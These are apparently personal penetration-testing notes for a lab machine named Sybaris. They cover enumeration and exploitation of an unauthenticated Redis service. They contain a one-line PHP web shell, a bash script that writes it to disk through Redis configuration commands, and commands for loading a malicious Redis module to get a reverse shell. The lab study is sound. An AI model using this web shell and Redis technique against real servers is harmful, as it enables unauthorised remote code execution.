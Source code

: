 # Sybaris Notes

## Data 

IP:  192.168.231.93
OS: CentOS
Arch:
Hostname:
DNS:
Domain:  / Domain SID:
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectives

`\#\# Target Map ![](Sybaris-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 
- Wpscan there is a Wordpress theme possible rabbit hole

- Find a directory 

#### Timeline of tasks complete

nmapftpanon.png
ftpwritablepubdir.png
- /pub is not under /var/www/html
robotsandredis.png
composerjson.png
redisisvuln.png
gobuster301s.png
phppathtrav.png
redisRCEsh.png
mehhtlmy.png

- [Redis 4.x / 5.x - Unauthenticated Code Execution (Metasploit)](https://www.exploit-db.com/exploits/47195)
- [Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  from [[Reddish-Helped-Through]]
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# redishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 192.168.231.93 flushall
cat cmd.php | redis-cli -h 192.168.231.93 -x set subscribetoippsecandread0xdf
redis-cli -h 192.168.231.93 config set dir /tmp
redis-cli -h 192.168.231.93 config set dbfilename "cmd.php"
redis-cli -h 192.168.231.93 save
```
- https://www.exploit-db.com/exploits/1244
- Find the directory - probably redis is running as a redis user  
	- /tmp works!
- https://nvd.nist.gov/vuln/detail/CVE-2020-23766 - An arbitrary file deletion vulnerability was discovered on htmly v2.7.5 which allows remote attackers to use any absolute path to delete any file in the server should they gain Administrator privileges.
- htmly - [[metatag-cms-http___192.168.237.93_]]

```
cd redis-rce
python3 -m venv .venv;
source .venv/bin/activate;
pip3 install -r requirements.txt;
python3 redis-rce.py
```

tryingwithtmetasploitexpsofile.png

Then with https://github.com/n0b0dyCN/RedisModules-ExecuteCommand and failed

add `#include <string.h>` and it still timed out..

- no udp ports

Write up a hoy because the time constraints must be harsh
```
make -C ./src
```
wu-ftpuploadmoduleso.png

Instead of telnet I went with `redis-cli`
wu-loadmodule.png

`LOAD MODULE` 
```bash
redis-cli -h $ip
MODULE LOAD /path/to/module/module.so
```

wu-revshell.png


Now to privesc myself
